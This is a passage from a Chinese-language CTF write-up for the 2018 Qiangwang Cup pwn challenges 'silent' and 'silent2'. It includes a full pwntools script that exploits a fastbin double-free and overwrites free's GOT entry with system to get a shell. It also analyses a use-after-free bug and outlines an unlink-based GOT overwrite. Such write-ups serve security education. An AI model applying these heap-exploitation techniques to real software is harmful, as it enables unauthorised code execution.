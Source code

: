 ```

elf = ELF('./silent')
p.recvuntil('==+RWBXtIRRV+.+IiYRBYBRRYYIRI;VitI;=;..........:::.::;::::...;;;:.')
fake_chunk = 0x601ffa
system_plt = 0x400730
success('fake_chunk => ' + hex(fake_chunk))
success('system_plt => ' + hex(system_plt))
add(0x50 , 'a' * 0x4f)#chunk 0  rabbish
add(0x50 , 'b' * 0x4f)#chunk 1  rabbish
add(0x50 , 'c' * 0x4f)
#debug()
dele(0)#fastbin->chunk0
dele(1)#fastbin->chunk1->chunk0
debug()
dele(0)#fastbin->chunk0->chunk1->chunk0
add(0x50 , p64(fake_chunk))#fastbin->chunk1->chunk0->0x601ffa   fd
add(0x50 , '/bin/sh\x00')#fastbin->chunk0->0x601ffa rabbish
add(0x50 , 'c' * 0x4f)#fastbin->0x601ffa    command(chunk1)
add(0x50 , 'A' * 0xe + p64(system_plt))#free=>system
dele(1)#free(chunk1)=>system('/bin/sh\x00')
#debug()
p.interactive()
```
### silent2
![](https://ctfwp.wetolink.com/2018qiangwang/26.jpeg)

发现NX、Canary都开了，但Partial RELRO说明可以修改got表，PIE说明没有地址随机化，就可以直接利用IDA中看到的地址，不需要计算libc偏移了

先看main函数

![](https://ctfwp.wetolink.com/2018qiangwang/27.jpeg)

case1:功能就是create啦

![](https://ctfwp.wetolink.com/2018qiangwang/28.jpeg)

注意到`*&s[8*i] = v3`这句，说明是用s这个数组来存储堆地址的，并且最多存储10个至少为0x80大小（或0x10）的堆
case2:功能就是删除delete

![](https://ctfwp.wetolink.com/2018qiangwang/29.jpeg)

注意到free后没有给数组该元素设置为0，存在UAF漏洞

case3:功能是编辑edit

![](https://ctfwp.wetolink.com/2018qiangwang/30.jpeg)

可惜这里长度不能自定义，只能根据原堆大小进行写数据，因此光看这里不存在溢出情况。

另外这里奇怪的是往0x602120的bss段中写入48个字符，或许这里也可以做文章，但我做的时候将他忽视。

看完源码后提出以下思路：
目的是执行system('/bin/sh')-->修改某个函数的（strlen或者free等）got表为system_plt-->利用unlink任意地址写
